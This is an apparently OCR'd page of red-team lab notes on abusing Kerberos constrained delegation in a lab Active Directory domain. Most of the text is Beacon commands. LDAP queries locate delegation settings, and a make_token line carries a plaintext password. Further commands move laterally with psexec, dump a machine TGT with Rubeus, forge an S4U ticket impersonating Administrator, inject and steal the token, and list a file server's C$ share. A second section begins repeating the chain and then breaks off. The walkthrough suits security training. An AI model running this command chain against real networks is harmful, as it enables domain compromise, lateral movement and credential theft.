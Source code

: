     `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
    TerminalTypeCopy
    
    `[Convert]::ToBoolean(16781312 -band 16777216)`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb
-  Dump _lon-ws-1_'s TGT.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap`
    
-  Perform the S4U abuse to obtain a usable service ticket for _cifs/lon-fs-1_, impersonating the default domain admin.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:lon-ws-1$ /msdsspn:cifs/lon-fs-1 /ticket:[TGT] /impersonateuser:Administrator /nowrap`
    
-  Inject the ticket into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket has been injected.
    
    1. run klist
-  Use the ticket to access _lon-fs-1_.
    
    1. ls \\lon-fs-1\c$

### Service Name Substitution
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(samaccountname=lon-ws-1$)) --attributes userAccountControl`
    
-  Move laterally to _lon-ws-1_.
    